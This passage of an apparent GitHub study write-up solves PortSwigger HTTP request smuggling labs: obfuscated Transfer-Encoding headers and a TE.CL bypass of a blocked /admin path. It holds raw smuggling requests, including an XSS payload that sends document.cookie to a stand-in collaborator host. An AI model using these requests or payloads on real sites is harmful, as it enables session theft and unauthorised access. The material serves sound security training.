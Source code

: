 ```

Transfer-encoding: identity
Transfer-encoding: cow
```

> Some servers that do support the `Transfer-Encoding` header can be induced not to process it if the header is **obfuscation** in some way.

> On Repeater menu ensure that the **"Update Content-Length"** option is unchecked.

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: identity

e6
GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?c='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0\r\n  
\r\n
  
```

> **Note:** You need to include the trailing sequence **\r\n\r** following the final **0**.

[PortSwigger Lab: HTTP request smuggling, obfuscating the Transfer-Encoding (TE) header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)

> Wonder how often this scenario occur that hacker is able to steal visiting user request via HTTP Sync vulnerability?

#### TE.CL multiCase - Admin blocked

> When attempting to access `/admin` portal URL path, we get the filter message, `Path /admin is blocked`. The HTTP Request Smuggler scanner _**identify**_ the vulnerability as `TE.CL multiCase (delayed response)`. **Note:** because back-end server doesn't support chunked encoding, turn off `Update Content-Length` in Repeater menu.

> After disable auto content length update, changing to `HTTP/1.1`, then send below request twice, adding the second header `Content-Length: 15` prevent the HOST header conflicting with first request.\
> **Note:** need to include the trailing sequence `\r\n\r` following the final `0`.

> Manually fixing the length fields in request smuggling attacks, requires each chunk size in bytes expressed in **HEXADECIMAL**, and **Content-Length** specifies the length of the message body in **bytes**. Chunks are followed by a **newline**, then followed by the chunk contents. The message is terminated with a chunk of size ZERO.
